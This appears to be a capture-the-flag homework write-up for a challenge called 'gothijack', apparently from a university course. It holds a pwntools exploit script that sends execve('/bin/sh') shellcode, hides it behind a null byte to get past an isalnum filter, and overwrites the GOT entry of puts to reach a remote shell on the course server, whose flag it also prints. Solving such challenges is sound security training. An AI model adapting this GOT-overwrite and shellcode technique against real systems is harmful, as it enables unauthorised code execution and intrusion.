 # HW2
## gothijack
* NX disable.
* Hijack got value of puts.
* Jump to shellcode.
* Insert Null byte to bypass isalnum checking.
```python
#!/usr/bin/env python2
# -*- coding: ascii -*-
from pwn import *

# FLAG{G0THiJJack1NG}

context.arch = 'amd64'

e = ELF('./gothijack-2586ada3c6815e1ad4656d704ecfc03f86bc1b00')

host , port = 'csie.ctf.tw' , 10129

y = remote(host,port)

sc = 'H1\xf6H1\xd2H\xb8/bin/sh\x00PH\x89\xe7j;X\x0f\x05'

y.sendafter( ':' , '\x00' + sc )

y.sendafter( ':' , hex( e.got['puts'] ) )

y.sendafter( ':' , p64( 0x6010a1 ) )

sleep(1)

y.sendline( 'cat /home/`whoami`/flag' )

y.interactive()
```